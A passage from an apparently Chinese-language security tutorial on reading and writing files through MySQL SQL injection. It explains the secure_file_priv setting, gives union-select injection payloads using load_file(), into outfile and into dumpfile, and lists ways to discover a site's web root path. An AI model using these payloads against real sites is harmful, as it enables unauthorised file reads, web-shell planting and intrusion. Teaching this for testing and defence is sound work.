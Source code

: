 #### MySQL读写文件操作条件

上述函数能否成功执行受到参数 `secure_file_priv` 的影响。官方文档中的描述翻译一下就是

- 其中当参数 `secure_file_priv` 为空(即不进行设置)时，对导入导出无限制
- 当值为一个指定的目录时，只能向指定的目录导入导出
- 当值被设置为NULL时，禁止导入导出功能

在 MySQL 5.5 之前` secure_file_priv` 默认是空，这个情况下可以向任意绝对路径写文件

在 MySQL 5.5之后 `secure_file_priv` 默认是 NULL，这个情况下不可以写文件

#### MySQL文件读写函数

##### load_file() 读取函数

```sql
?id=-1' union select 1,load_file('D:/JayProgram/PHPstudy/PHPTutorial/WWW/test.txt'),3--+
或
?id=-1' union select 1,load_file('D:\\\JayProgram\\PHPstudy\\PHPTutorial\\WWW\\test.txt'),3--+
```

##### into outfile 或 into dumpfile 导出(写入)函数

###### into outfile

```sql
?id=-1' union select 1, 'a\nabc\nabcde' ,3 into outfile 'd:/test.txt'--+
```

###### into dumpfile

```sql
?id=-1' union select 1, 'a\nabc\nabcde' ,3 into dumpfile 'd:/test.txt'--+
```

#### 获取路径及读取文件列表

##### 常见方法

###### 报错显示

网站报错的时候会泄漏出自己的路径（扫描工具/手动探测）

###### 遗留文件

调试软件或者平台遗留下来的文件，经典的就是phpinfo.php(扫描工具可以扫到)

###### 漏洞报错

知道网站是用什么cms或者框架进行搭建的，用搜索引擎去找到对应的爆路径方式，比如搜索phpcms 爆路径

就可以利用该网站相关漏洞爆出网站路径，一般访问相应的文件地址，返回的报错信息就会显示网站路径信息

###### 平台配置文件

结合前面的读取文件操作来读取搭建网站平台的配置文件，通过[默认路径](https://blog.csdn.net/weixin_30292843/article/details/99381669)去尝试找到突破口，但如果更改了默认安装路径，也是很难进行（不怎么常用）。

比如：Apache的默认配置文件目录为`/usr/local/app/apache2/conf/extratpd-vhosts.conf`在Apache安装目录下面的`/conf/extratpd-vhosts.conf`
